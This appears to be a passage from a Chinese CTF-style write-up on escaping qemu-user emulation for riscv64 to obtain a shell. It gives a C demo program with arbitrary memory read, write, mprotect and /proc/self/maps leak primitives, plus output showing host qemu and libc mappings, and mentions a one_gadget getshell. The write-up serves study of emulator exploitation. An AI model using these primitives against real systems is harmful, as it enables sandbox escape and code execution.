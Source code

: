 1. 首先构造一个能满足上述过程的例题ELF，qemu运行，可以与其交互
2. 然后构造一个不用交互的ELF，qemu运行直接getshell
3. 最后构造出这个shellcode

###### c代码需交互demo

我们首先构造这个留出一定的交互，复杂的字符串处理操作交给人或者python来处理：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
int main(){
    char buf[0x1000]={0};
    long long * p,data;
    int len,prot;
    char rw;
    setbuf(stdout,0);
    while(1){
        printf("read or wirte or mprotect or leak?\n> ");scanf("%c",&rw);scanf("%*[^\n]%*c");
        if(rw == 'r'){
            printf("addr: ");scanf("%p",&p);
            printf("data: %llx\n",*p);
        }else if(rw == 'w'){
            printf("addr: ");scanf("%p",&p);
            printf("data: ");scanf("%llx",&data);
            *p = data; printf("OK\n");
        }else if(rw == 'm'){
            printf("addr: ");scanf("%p",&p);
            printf("len : ");scanf("%x",&len);
            printf("prot: ");scanf("%d",&prot);
            printf("%p,%x,%d\n",p,len,prot);
            mprotect(p,len,prot);
        }else if(rw == 'l')
        {
            int fd = openat(0,"/./proc/self/maps",0);
            read(fd,buf,0x1000);write(1,buf,0x1000);
            read(fd,buf,0x1000);write(1,buf,0x1000);
            close(fd);
        }
        scanf("%*c");
    }
}
```

使用one_gadget手工getshell成功：

```bash
$ riscv64-linux-gnu-gcc -static test.c -o test
$ ./qemu-riscv64 ./test
read or wirte or mprotect or leak?
> l
561a145a7000-561a1463e000 r--p 00000000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a1463e000-561a14832000 r-xp 00097000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14832000-561a14c5d000 r--p 0028b000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14c5e000-561a14cbf000 r--p 006b6000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14cbf000-561a14ceb000 rw-p 00717000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
7f2f1942f000-7f2f19454000 r--p 00000000 08:05 1050755                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
read or wirte or mprotect or leak?
```